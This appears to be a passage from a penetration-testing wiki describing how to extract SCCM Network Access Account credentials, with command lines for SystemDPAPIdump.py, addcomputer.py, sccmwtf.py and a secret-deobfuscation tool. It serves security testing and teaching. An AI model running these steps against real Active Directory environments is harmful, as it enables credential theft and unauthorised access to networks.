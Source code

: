 From UNIX-like systems, with administrative privileges over a device enrolled in the SCCM environment, [SystemDPAPIdump.py](https://github.com/fortra/impacket/pull/1137) (Python) can be used to decipher via DPAPI the WMI blob related to SCCM and retrieve the stored credentials. Additionally, the tool can also extract SYSTEM DPAPI credentials.

```bash
SystemDPAPIdump.py -creds -sccm $DOMAIN/$USER:$PASSWORD@target.$DOMAIN
```

### Manualy

On the other hand, it is possible, from a controlled computer account, to manually request the SCCM policy and retrieve the NAAs inside.

{% hint style="warning" %}
The tool author ([Adam Chester](https://twitter.com/\_xpn\_)) warns not to use this script in production environments.
{% endhint %}

Step 1: Gain control over a computer account password.

For this step, it is possible to create a new computer account (if permited by the domain policy), instead of compromise a domain computer.

```bash
addcomputer.py -dc-ip $DC -computer-name controlledComputer$ -computer-pass controlledPassword $DOMAIN/$USER:$PASSWORD
```

Step 2: Use `sccmwtf.py` to extract NAA secrets

A controlled computer account is needed to send the authenticated request (this is why a computer account has been created previously) to retrieve the policy, but the account to spoof doesn't need to be the same.

Here, `$SCCM_MP_NetBiosName` takes the value of the SCCM Management Point server NETBIOS name.

```bash
sccmwtf.py fakepc fakepc.$DOMAIN $SCCM_MP_NetBiosName "$DOMAIN\controlledComputer$" "controlledPassword"
```

Step 3: Obtain obfuscated NAA secrets

The obufscated NAA secrets will be saved in a local file.

```bash
cat /tmp/naapolicy.xml
```

Values to decode are the long hexadecimal strings in the CDATA sections (`<![CDATA[String_here]`).

Step 4: Decode obfuscated strings

To decode username and password use `.\DeobfuscateSecretString.exe` contained in [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) or [sccmwtf](https://github.com/xpn/sccmwtf/blob/main/policysecretunobfuscate.c)

```powershell
policysecretdecrypt.exe $HEX_STRING
```
